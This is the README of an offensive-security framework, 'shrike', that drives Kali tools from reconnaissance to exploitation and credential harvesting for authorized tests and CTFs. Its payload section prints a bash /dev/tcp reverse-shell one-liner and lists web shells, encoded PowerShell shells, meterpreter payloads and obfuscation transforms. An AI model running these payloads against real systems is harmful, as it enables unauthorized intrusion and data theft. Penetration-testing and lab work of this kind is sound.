






# shrike

> A recon-to-exploitation orchestration framework with a minimalist terminal UI —
> the shrike is a butcherbird that hunts methodically and pins its prey.


[](LICENSE)

📖 [Install](docs/INSTALL.md) · [Usage](docs/USAGE.md) · [Contributing](CONTRIBUTING.md) · [Security](SECURITY.md)

<p align="center">
  
</p>


An offensive-security **recon-to-exploitation orchestration framework** with a
Claude-Code-style terminal interface. You paste in targets, and shrike drives the
existing Kali toolchain (nmap, netexec, impacket, hashcat, bloodhound, ligolo, …)
through every phase — enumeration → exploitation → cred access → lateral → privesc —
suggesting the next step, running the command, capturing the output, feeding the
results back into its own state, and writing everything up in phase-segregated notes.

Written in **Rust** (async, ratatui TUI) for fast, reliable, highly-parallel execution.

## What it does

- **One minimalist interface.** A full-width transcript of every command and its
  output, a rounded input box, and a slash-command autocomplete popup — in the spirit
  of the Claude Code terminal. An opt-in dashboard (`Ctrl-G`) adds next-steps and a
  per-host context panel when you want them.
- **Understands the network.** Ingests nmap XML, classifies each `/24` as
  internal/external, and works out reachability: which segments are **routable now**
  vs **pivot-required**, and through which compromised host to pivot.
- **Auto-detects service context.** http vs https, PHP apps, SMB signing, Windows vs
  Linux, Domain Controllers — and only offers tools that actually apply.
- **Correlates loot automatically.** Every command's output is scraped for usernames,
  passwords, NT hashes, SPNs and domain facts. Base64 secrets are decoded. `(Pwn3d!)`
  marks a host OWNED. Recovered creds are substituted straight into the next command.
- **Campaign mode.** `/auto [phase]` runs every applicable, installed tool for a
  phase across your whole scope at once — one command takes you from a target list
  through discovery, port-scan, web/SMB/AD enumeration and vuln-scanning.
- **First-class findings & reporting.** Structured output from nuclei/httpx/ffuf/
  feroxbuster is parsed into findings and discovered paths; `/finding` records your
  own. Export a self-contained **HTML report** (`/html`) or the phase-grouped
  `notes.md`.
- **Runs many hosts at once.** A bounded async worker pool streams each job's output
  back to the UI live, with per-job timeouts and Ctrl-C cancellation.
- **Never loses work.** State is serialised to disk after every command; a session
  resumes exactly where it left off. `notes.md` is regenerated continuously, grouped
  by phase, with the topology map and the credential table.

## Screenshots

<table>
<tr>
<td width="50%">
<br>
<sub><b>Command palette</b> — type <code>/</code> and the menu appears; arrows to select, Tab to complete.</sub>
</td>
<td width="50%">
<br>
<sub><b>Dashboard</b> (<code>Ctrl-G</code>) — phase-ranked next steps and the focused host's ports, OS and domain.</sub>
</td>
</tr>
<tr>
<td colspan="2">
<br>
<sub><b>Payload generation</b> — reverse shells in any language, encoding transforms applied with <code>+name</code>, and msfvenom commands; each printed with its matching listener and saved to <code>loot/</code>.</sub>
</td>
</tr>
<tr>
<td width="50%">
<br>
<sub><b>Dashboard views</b> (F1-F5) — hosts, findings, credentials and web content as navigable tables.</sub>
</td>
<td width="50%">
<br>
<sub><b>Attack-chain guidance</b> (<code>/next</code>) — reads the engagement state and recommends the next moves with rationale and MITRE ATT&CK tags.</sub>
</td>
</tr>
</table>

## Documentation

- **[docs/INSTALL.md](docs/INSTALL.md)** — prerequisites, building, installing the
  orchestrated toolchain, troubleshooting.
- **[docs/USAGE.md](docs/USAGE.md)** — the full command reference and an end-to-end
  workflow walkthrough.

## Quickstart

```bash
# 1. build (needs Rust — see docs/INSTALL.md)
cargo build --release

# 2. run: start an engagement, seed targets, import an existing scan
./target/release/shrike --name oscp-exam --targets hosts.txt --import services.xml

# …or just print the topology + enumeration plan, no UI
./target/release/shrike --targets hosts.txt --import services.xml --plan
```

In the TUI: type `/` for the command menu, `Tab` to run the highlighted suggestion,
`Ctrl-G` for the dashboard, `/help` for everything, `/quit` to save and exit.

### Interface

A minimalist terminal UI in the spirit of Claude Code: a full-width transcript, a
rounded input box, and a slash-command **autocomplete popup** that appears as you
type `/`. `Tab` completes the highlighted command (or, with no menu open, runs the
top suggestion). The dashboard (next-steps + host context) is opt-in — `Ctrl-G` or
`/panel` toggles it, so the default view stays clean.

### In the TUI

| key / command | action |
|---|---|
| `<text>` / `Tab` | run a raw command / run the highlighted suggestion |
| `↑ ↓` | move the suggestion selection |
| `/target <ip\|cidr\|file>` | add targets |
| `/import <nmap.xml>` | ingest an nmap `-oX` scan |
| `/focus <ip>` | set the current host context |
| `/run <tool-id>` · `/raw <cmd>` | run a catalog tool / arbitrary shell |
| `/auto [phase]` | campaign mode — run all applicable installed tools across scope |
| `/finding [sev] title @loc` | record a finding · `/html` export the HTML report |
| `/history` · `/rerun <id>` | list past commands / re-run one |
| `/next` | state-aware attack-chain guidance with MITRE tags |
| `/shell <cmd>` | run an interactive TTY tool inline (session handoff) |
| `/view <name>` · F1-F5 | switch dashboard views (console/hosts/findings/creds/web) |
| `/cred [dom/]user:secret` | add a credential (hash or password) |
| `/harvest <file\|text>` | scrape creds & intel from output |
| `/set proxy\|iface\|domain\|dc\|<wl>` | set engagement variables |
| `/suggest` · `/phase <name>` | recompute / filter next steps |
| `/export` · `/star` · `/quit` | write notes / star last cmd / save & exit |
| `PgUp/PgDn` · `Ctrl-C` | scroll · cancel running jobs (then quit) |

Interactive tools (evil-winrm, ftp, mssqlclient, ssh…) run **inline**: shrike
suspends the dashboard, hands you the live session, and re-enters cleanly on exit.
Use `/shell <cmd>` for an arbitrary interactive command, or just `/run` an
interactive catalog tool.

## Payload generation

Built-in revshells + msfvenom, with an encoding/obfuscation pipeline. Set your
listener once, then generate in any language:

```
/set lhost 10.10.14.7
/set lport 443
/payload bash-devtcp                     # bash -i >& /dev/tcp/10.10.14.7/443 0>&1
/payload ps-tcpclient +ps-encodedcommand # UTF-16LE+base64 -> powershell -enc <blob>
/payload php-webshell                     # ?cmd= web shell
/msf win-meterpreter-tcp                  # full msfvenom line + multi/handler
/payloads windows                         # list payloads (filter by os/lang/kind/id)
```

- **32 payloads** across bash, sh, powershell, cmd, python, php, perl, ruby, node,
  java/jsp, aspx, war, go, C, C#, lua, awk, socat, nc/ncat, telnet, openssl — reverse
  shells, bind shells, web shells, stagers, file-transfer one-liners, and the full
  TTY-upgrade sequence.
- **11 msfvenom specs** (windows/linux meterpreter + stageless, php/jsp/war/aspx/msi)
  each with the matching handler or `nc` listener, `-b` badchar and `-e` encoder support.
- **Encoding/obfuscation transforms** applied with `+<name>`: `base64`,
  `ps-encodedcommand`, `hex`, `url-encode`, `double-url-encode`, `xor-ps-stub`,
  `ps-char-array`, `bash-b64-exec`, `py-b64-exec`, `php-b64-eval`. Every generated
  payload is saved to `loot/` and the matching listener is printed alongside it.

Scope note: these are the standard revshells.com / msfvenom / OSCP-curriculum payloads
and signature-level encoders. shrike does not implement in-memory injection, syscall
stubs, or EDR-unhooking primitives — it generates and encodes, it does not build
behavioural-evasion capability.

## Architecture

```
src/
  model/     phases, hosts/services, credentials, engagement state (serde)
  parse/     nmap XML parser + credential/intel harvester
  payload/   revshell/webshell catalog + encoding transforms + msfvenom builder
  catalog/   declarative tool registry + template renderer + suggestion engine
  engine/    async job runner (streaming, timeouts, cancellation) + workspace persistence
  notes/     markdown report generator
  ui/        ratatui app: event loop, rendering, slash-command palette
research/    tool catalogs, attack-chain graphs, output-schema + arch notes
```

**Extending it:** add a `tool!(...)` entry to `src/catalog/tools.rs`. Declare its
phase, the ports/services/creds it needs (`Applies`), and a command template with
`{ip} {port} {url} {domain} {dc_ip} {user} {pass} {nthash} {wordlist} {iface}`
placeholders. The suggestion engine and command builder pick it up automatically.

## Scope

shrike is a wrapper/orchestrator: it runs the tools you already have on PATH and
records what they produce. It is for **authorized** engagements, CTFs and lab work.
It does not bundle exploits or act autonomously — every command is operator-initiated.

## License

MIT — see [LICENSE](LICENSE). For **authorized testing only**; see [SECURITY.md](SECURITY.md).
